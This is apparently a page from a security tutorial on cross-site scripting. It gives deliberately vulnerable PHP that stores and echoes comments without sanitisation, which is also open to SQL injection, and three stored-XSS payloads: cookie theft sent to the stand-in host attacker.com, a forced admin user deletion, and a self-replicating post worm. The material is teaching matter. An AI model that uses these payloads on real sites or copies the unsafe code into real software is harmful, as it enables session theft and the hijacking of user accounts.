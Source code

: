 #### Example Vulnerable Code
```php
<?php
// Vulnerable comment system
if ($_POST['comment']) {
    $comment = $_POST['comment'];
    // Store in database without sanitization
    mysqli_query($conn, "INSERT INTO comments (text) VALUES ('$comment')");
}

// Display comments
$result = mysqli_query($conn, "SELECT * FROM comments");
while ($row = mysqli_fetch_assoc($result)) {
    echo "<div>" . $row['text'] . "</div>"; // XSS vulnerability
}
?>
```

#### Stored XSS Attack Scenarios
```html
<!-- Comment field injection -->
<script>
// Steal cookies from all users who view this comment
var img = new Image();
img.src = 'http://attacker.com/steal.php?cookie=' + document.cookie;
</script>

<!-- Profile field injection -->
<img src="x" onerror="
// Execute when profile is viewed
fetch('/admin/delete-user', {
    method: 'POST',
    headers: {'X-Requested-With': 'XMLHttpRequest'},
    body: 'user_id=123'
});
">

<!-- Forum post injection -->
<svg onload="
// Worm-like behavior - replicate to other posts
var xhr = new XMLHttpRequest();
xhr.open('POST', '/create-post', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('title=Infected&content=' + encodeURIComponent(document.documentElement.outerHTML));
">
```

### 3. 🌐 DOM-Based XSS

Occurs when the application's client-side script writes user-controllable data to the Document Object Model (DOM) in an unsafe way.
